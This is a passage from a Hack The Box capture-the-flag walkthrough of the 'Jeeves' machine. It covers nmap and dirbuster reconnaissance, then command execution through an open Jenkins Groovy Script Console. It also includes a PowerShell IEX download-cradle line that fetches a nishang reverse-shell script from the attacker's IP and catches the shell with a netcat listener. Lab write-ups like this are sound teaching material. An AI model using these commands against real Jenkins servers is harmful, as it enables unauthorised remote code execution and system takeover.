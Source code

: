 Jeeves

https://www.hackthebox.eu/home/machines/profile/114

* Author: mrb3n
* Series: HTB

## Scan target using nmap

### Service Scan
```
nmap -sV 10.10.10.63
Starting Nmap 7.70 ( https://nmap.org ) at 2018-05-24 15:53 MDT
Nmap scan report for 10.10.10.63
Host is up (0.18s latency).
Not shown: 995 filtered ports
PORT      STATE SERVICE            VERSION
80/tcp    open  http               Microsoft IIS httpd 10.0
135/tcp   open  msrpc              Microsoft Windows RPC
445/tcp   open  microsoft-ds       Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
50000/tcp open  http               Jetty 9.4.z-SNAPSHOT
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 117.93 seconds
```

two http ports stand out
Going to run dirbuster on them
80, 50000

## Running Dirbuster 

### on IIS 10.0
```
dirbuster -u http://10.10.10.63 -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 15
Starting OWASP DirBuster 1.0-RC1
Starting dir/file list based brute forcing
```

### on JETTY 9.4
```
dirbuster -u http://10.10.10.63:50000 -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 15
Starting OWASP DirBuster 1.0-RC1
Starting dir/file list based brute forcing
Dir found: /askjeeves/ - 200
Dir found: /askjeeves/about/ - 200
Dir found: / - 200
File found: /error.html - 200
File found: /jeeves.PNG - 200
Dir found: /askjeeves/people/ - 200

```

Testing out 10.10.10.63:50000/askjeeves
Discovered, anonymous access, navigated to Manage Jenkins
Clicked Script Console -

Type in an arbitrary Groovy script and execute it on the server. 
Useful for trouble-shooting and diagnostics. 
Use the ‘println’ command to see the output (if you use System.out, it will go to the server’s stdout, which is harder to see.) Example:

println(Jenkins.instance.pluginManager.plugins)

All the classes from all the plugins are visible. jenkins.*, jenkins.model.*, hudson.*, and hudson.model.* are pre-imported.

## Groovy Script Testing

### Simple WHoami
```
cmd = "whoami"
println cmd.execute().text

Result

jeeves\kohsuke
```	
### Running deeper directory traversal
```
cmd = "cmd.exe /c dir"
println cmd.execute().text
 
Result

 Volume in drive C has no label.
 Volume Serial Number is BE50-B1C9

 Directory of C:\Users\Administrator\.jenkins

05/27/2018  03:12 PM    <DIR>          .
05/27/2018  03:12 PM    <DIR>          ..
05/27/2018  05:27 PM                48 .owner
05/27/2018  03:00 PM             1,756 config.xml
05/27/2018  02:46 PM               156 hudson.model.UpdateCenter.xml
05/27/2018  03:12 PM             1,178 hudson.plugins.emailext.ExtendedEmailPublisher.xml
11/03/2017  10:43 PM               374 hudson.plugins.git.GitTool.xml
11/03/2017  10:33 PM             1,712 identity.key.enc
11/03/2017  10:46 PM                94 jenkins.CLI.xml
12/24/2017  03:35 PM            75,276 jenkins.err.log
11/03/2017  10:47 PM           360,448 jenkins.exe
11/03/2017  10:47 PM               331 jenkins.exe.config
05/27/2018  02:47 PM                 4 jenkins.install.InstallUtil.lastExecVersion
11/03/2017  10:45 PM                 4 jenkins.install.UpgradeWizard.state
11/03/2017  10:46 PM               138 jenkins.model.DownloadSettings.xml
12/24/2017  03:38 PM             2,688 jenkins.out.log
05/27/2018  02:45 PM                 4 jenkins.pid
11/03/2017  10:46 PM               169 jenkins.security.QueueItemAuthenticatorConfiguration.xml
11/03/2017  10:46 PM               162 jenkins.security.UpdateSiteWarningsConfiguration.xml
11/03/2017  10:47 PM        74,271,222 jenkins.war
05/27/2018  02:45 PM            34,147 jenkins.wrapper.log
11/03/2017  10:49 PM             2,881 jenkins.xml
11/03/2017  10:33 PM    <DIR>          jobs
11/03/2017  10:33 PM    <DIR>          logs
05/27/2018  02:47 PM               907 nodeMonitors.xml
11/03/2017  10:33 PM    <DIR>          nodes
11/03/2017  10:44 PM    <DIR>          plugins
11/03/2017  10:47 PM               129 queue.xml.bak
11/03/2017  10:33 PM                64 secret.key
11/03/2017  10:33 PM                 0 secret.key.not-so-secret
12/24/2017  03:47 AM    <DIR>          secrets
11/08/2017  09:52 AM    <DIR>          updates
11/03/2017  10:33 PM    <DIR>          userContent
11/03/2017  10:33 PM    <DIR>          users
11/03/2017  10:47 PM    <DIR>          war
11/03/2017  10:43 PM    <DIR>          workflow-libs
              24 File(s)     74,753,892 bytes
              12 Dir(s)   7,267,758,080 bytes free

``` 

Now that there is discovered script access > we can move onto shell access
Google Search > found nishang powershell framework
Created www folder added Invoke-PowerShellTcp.ps1 (Added Example line to bottom of file to run)
Created a NC listener for powershell execution

## Testing for Shell access

### runnimg Grovy download sCript
```
cmd = """powershell "IEX(new-object net.webclient).downloadstring('http://10.10.14.59/test.ps1')" """
println cmd.execute().text


nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.59] from (UNKNOWN) [10.10.10.63] 49680
Windows PowerShell running as user kohsuke on JEEVES
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator\.jenkins>whoami
jeeves\kohsuke
```

Now that we have a shell with a viable user... let's see if this user has a user.txt

## User.txt

```
PS C:\Users\kohsuke\Desktop> dir


    Directory: C:\Users\kohsuke\Desktop


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-ar---        11/3/2017  11:22 PM             32 user.txt  
```












